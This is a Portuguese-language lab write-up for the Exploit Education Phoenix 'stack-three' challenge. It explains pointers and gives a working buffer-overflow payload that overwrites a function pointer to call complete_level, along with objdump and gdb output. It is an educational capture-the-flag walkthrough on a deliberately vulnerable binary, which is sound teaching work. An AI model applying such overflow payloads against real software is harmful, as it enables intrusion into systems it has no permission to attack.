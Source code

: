 # Objetivo
Usar um pointer para retornar para uma função pre existente

# Dica
OBS: em Ingles! -> [Wikipedia Pointer](https://en.wikipedia.org/wiki/Pointer_(computer_programming))

# Explicação
  - O que raios são pointers
  - Function pointers
  - Exploit
  
### O que raios são pointers
> Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura.
Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D

O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.

![Imagem da wikipedia mostrando um pointer](https://upload.wikimedia.org/wikipedia/commons/thumb/b/b4/Pointers.svg/264px-Pointers.svg.png)
Colunas: Nome da Variavel | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variavel "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
> "a" armazena uma referencia á "b" !

> "a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D

Normalmente, o caractere "&" indica uma referência, e o caractere "*" desreferencia aquele pointer.

> Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro!

### Function Pointers
> Function pointers, ao envés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D
Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por varios métodos:
```
objdump -d <programa> | grep <nome_da_função>


gdb <programa>
  (gdb)> info functions
```
Os dois metodos serão demonstrados em breve! :D

### Exploit
> Buffer overflow, alterarando o valor de um function pointer, redirecionando a execução do programa.
Em lingua não nerd, por favor? :P
> Escrever fora do valor do buffer. O valor que sera corrompido indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!

#### Analisando o programa
```
função complete_level() {   -> a função que a gente quer chamar
.......
}

função main() {
  criar buffer[64]
  criar fp -> um function pointer
  
  fp = NULL -> vai ser usado para checar se ele foi alterado,
                se continuar sendo NULL, quer dizer que esta intacto.
                
  
  gets(buffer) -> função INSEGURA para abrir um input, salva o valor no buffer
  
  if (fp) {    -> se fp foi alterado
    fp()   -> chama o endereço salvo em fp como se fosse uma função
  } else {
    print(valor nao alterado, tente novamente)
  }
  
  exit
}
```

Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.

E nós já sabemos como exploitar um gets()! Então tá na hora do trabalho!

#### Encontrando o endereço da função
```
objdump -d    -> Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços!
gdb           -> Da uma olhada nessa colinha [ainda não fiz, ops :( ](https://github.com/0xturazzi/Writeups/tree/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7) 
```

objdump
```
user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
```

gdb
```
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-three                
---- Mensagens padrão foram removidas -----
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level              -> Mesmo endereço
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

> O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, 
e strings terminam com null byte!
Impedindo atacantes (nós), de definir um pointer novo. Nós precisamos usar um que já esta na memoria! (  Spoiler hehehehe :D  )

Como nesse desafio o pointer ja definido e nós só vamos dar um valor para ele, não precisamos nos preocupar com isso,
 dado que os zeros que ficam na stack quando ela esta vazia completarão o endereço pra gente!

#### Cansei de teoria eu quero exploit

Se você quer tentar por conta propria, agora é sua hora de brilhar!
```
Lembretes: Little Endian, o buffer tem 64 bytes, b"\x", o input vem pelo gets(), python > python3
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
```

b"A"*64     # encher o buffer

b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE


Espero que você tenha gostado! :D

# Solução
```
user@phoenix-amd64:~$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
